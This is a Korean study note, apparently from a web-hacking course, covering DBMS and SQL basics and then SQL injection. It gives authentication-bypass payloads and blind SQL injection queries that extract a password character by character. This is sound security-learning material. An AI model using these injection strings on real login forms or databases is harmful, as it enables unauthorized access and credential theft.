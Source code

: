 ## DBMS

데이터베이스 관리 시스템
데이터베이스에 정보를 기록, 수정, 삭제하는 기능을 수행함
다수의 사람들이 동시에 데이터베이스에 접근할 수 있도록 지원해주는 말그대로 매니저

관계형 : MySQL, MariaDB, PostgreSQL, SQLite
비관계형 : MongoDB, CouchDB, Redis

## SQL

Structed Query Language
RDBMS의 데이터를 정의, 질의, 수정 등 하기 위한 언어

DDL(Define) : 데이터 정의, 스키마(Table) 및 DB의 생성, 수정, 삭제
DML(Manipulate) : 데이터 조작, 테이블 내 데이터에 대한 생성, 수정, 삭제, 조회
DCL(Control) : 접근 권한 설정(Grant, Revoke)

### DDL

```sql
CREATE DATABASE Dreamhack;

USE Dreamhack;
CREATE TABLE Board(
	idx INT AUTO_INCREMENT,
	boardTitle VARCHAR(100) NOT NULL,
	boardContent VARCHAR(2000) NOT NULL,
	PRIMARY KEY(idx)
);
```

### DML

```sql
INSERT INTO 
  Board(boardTitle, boardContent, createdDate) 
Values(
  'Hello', 
  'World !',
  Now()
);

SELECT 
  boardTitle, boardContent
FROM
  Board
Where
  idx=1;

UPDATE Board SET boardContent='DreamHack!' 
  Where idx=1;
```

## SQL Injection

쿼리를 임의로 조작해서 데이터베이스의 정보를 획득

### 가장 간단한 SQL Injection 기법들

```sql
select * from user_table where uid='admin' or '1' and upw='';
select * from user_table where uid='admin'-- '' and upw=''; // --, #, /**/
select uid from user_table where uid='admin' union select upw from user_table where uid='admin'
```

## Blind SQL Injection

True, False 응답을 통해 정답을 알아가는 방식
쿼리에 대한 결과를 화면에서 직접 확인할 수 없을 때 사용

```dart
ascii('a') => 97
substr('ABCD', 1, 1) = 'A'
substr('ABCD', 2, 2) = 'BC'
```

```sql
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=114-- ' and upw=''; # False (첫번째 글자가 r인지)
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=115-- ' and upw=''; # True (첫번째 글자가 s인지)

SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=115-- ' and upw=''; # False (두번째 글자가 s인지)
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=116-- ' and upw=''; # True  (두번째 글자가 t인자)
```

Blind SQL Injection은 여러번 시도해야 하기 때문에 스크립트로 작성

